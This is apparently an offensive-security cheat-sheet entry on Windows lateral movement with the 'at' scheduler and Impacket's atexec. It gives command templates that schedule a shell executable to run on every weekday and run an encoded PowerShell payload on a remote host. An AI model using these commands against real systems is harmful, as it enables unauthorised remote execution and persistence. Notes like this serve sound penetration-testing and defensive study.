 # At

Search Tag(s): #lateral-movement #schedule-task #windows

## 01 - Manual

```
C:\> at <HH:mm> /interactive /every:<m | t | w | th | f | s | su> C:\path\to\shell.exe
```

## 02 - Usage

```
C:\> net time \\<IP>

PS C:\> Invoke-Command -ComputerName <IP> -ScriptBlock {Get-Date}

C:\> at <HH:mm> /interactive /every:m,t,w,th,f,s,su C:\path\to\shell.exe

C:\> at [\\<IP>] <HH:mm> "powershell.exe -E <base64_payload>"
```

## 03 - Atexec

```
$ atexec
```

---
## References

- [Impacket Remote Execution Tools - atexec.py](https://u0041.co/blog/post/1)